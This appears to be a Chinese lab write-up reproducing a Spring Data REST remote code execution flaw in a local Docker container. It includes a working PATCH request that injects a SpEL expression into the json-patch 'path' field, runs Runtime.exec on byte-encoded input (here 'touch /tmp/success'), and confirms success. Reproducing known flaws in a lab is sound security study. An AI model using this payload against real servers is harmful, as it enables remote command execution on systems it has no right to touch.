 # spring复现

## 部署环境

docker pull registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest

docker run -d -p 0.0.0.0:80:8080 registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest

## 测试


curl -X POST -H "Content-Type: application/json-patch+json" -d '{"forstname":"si","lastname":"li"}' http://127.0.0.1/customers

```json
{
  "firstname" : null,
  "lastname" : "li",
  "gender" : null,
  "address" : null,
  "_links" : {
    "self" : {
      "href" : "http://127.0.0.1/customers/2"
    },
    "customer" : {
      "href" : "http://127.0.0.1/customers/2"
    }
  }
}%
```

随后执行删除

curl -X DELETE -H "Content-Type: application/json-patch+json" http://127.0.0.1/customers/2

查看网页已经被成功删除

## 利用

直接BurpSuite抓包

```
GET /customers/1 HTTP/1.1
Host: 192.168.0.108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

修改为
```
PATCH /customers/1 HTTP/1.1
Host: 192.168.0.108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: security_level=0
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 08 Sep 2020 03:06:31 GMT
If-None-Match: "0"
Cache-Control: max-age=0
Content-Type: application/json-patch+json

[{"op":"replace","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname","value":"test"}]

```

此时可以获得响应

```json
{"cause":{"cause":null,"message":"EL1010E: Property or field 'lastname' cannot be set on object of type 'java.lang.UNIXProcess' - maybe not public?"},"message":"Could not read an object of type class example.springdata.rest.headers.Customer from the request!; nested exception is org.springframework.expression.spel.SpelEvaluationException: EL1010E: Property or field 'lastname' cannot be set on object of type 'java.lang.UNIXProcess' - maybe not public?"}
```

随后进入docker容器中进行查看发现在 /tmp 路径下已经成功创建文件success完成初级漏洞利用
